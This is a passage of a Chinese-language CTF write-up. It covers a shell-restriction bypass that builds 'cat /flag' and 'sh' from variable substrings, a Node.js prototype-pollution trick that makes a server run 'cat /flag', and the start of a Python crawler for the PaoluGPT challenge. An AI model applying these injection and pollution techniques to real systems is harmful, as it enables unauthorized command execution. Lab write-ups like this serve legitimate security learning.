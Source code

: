记录下输出，再从输出中拼接出 `cat /flag`

```bash
____=`${__:2:1}${__:7:1} ${__: -8: 1}`
${____:15:1}${__:3:1}${____:14:1} ${__: -8: 1}${____:17:4}
```

`flag{N0w_I_Adm1t_ur_tru1y_5He11_m4ster_9a5a6ee881}`

> P.S. 看 wp 才知道直接拼出来 `sh` 就行了…
>
> ```sh
> __=~        # ~ 是 /players
> ___=$-      # $- 是 hB
> ${__:7:1}${___: -2:1}   # 拼出来 sh
> cat /flag
> ```

## Node.js is Web Scale

> https://www.freebuf.com/articles/web/361333.html

题目中的 kv 存储到一个 Object 中，刚好执行命令也是使用 Object 对象执行。

将 Object 的 `__proto__.flag` 的值设置为 `cat /flag` 命令，在执行一个 cmd 中没有的 key 时，就会到 `__proto__` 去查找这个 key，然后就能执行 `cat /flag`。

`flag{n0_pr0topOIl_50_U5E_new_Map_1n5teAD_Of_0bject2kv_763a4ee0ba}`

## PaoluGPT

### 千里挑一

通过爬虫对聊天记录列表里的每个链接进行访问，查找 flag 字符串

```python
import requests
from bs4 import BeautifulSoup

# 获取网页内容
url = 'https://chal01-9xalclmi.hack-challenge.lug.ustc.edu.cn:8443'
list_url = requests.compat.urljoin(url, "/list")

headers = {
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'zh-CN,zh-Hans;q=0.9',
    'Connection': 'keep-alive',
    'Cookie': 'session=eyJ0b2tlbiI6IjEyMDY6TUVVQ0lBZDRvMU9GVTU0MHorS2dPRk9raEw1NWtlWFVMWUVDRVQ5TnF3L010TjYyQWlFQTdxejZtUWpSZVBZZGNxSjFTKzhhWTFiWW4vRER3a0JsMFlCTDVZNzBubjQ9In0.ZymtHg.MZpZjb3xTatfFJysS0-JcPg8sxk; _ga_R7BPZT6779=GS1.1.1730711699.3.0.1730711719.40.0.2059552996; _ga_Q8WSZQS8E1=GS1.1.1727321115.2.0.1727321115.60.0.473171826; _ga=GA1.1.819104836.1727319043',
    'Priority': 'u=0, i',
    'Referer': 'https://chal01-9xalclmi.hack-challenge.lug.ustc.edu.cn:8443/',
    'Sec-Fetch-Dest': 'document',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-Site': 'same-origin',
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/18.1 Safari/605.1.15'
}

response = requests.get(list_url, headers=headers)
html_content = response.content

# 解析HTML内容
soup = BeautifulSoup(html_content, 'html.parser')

```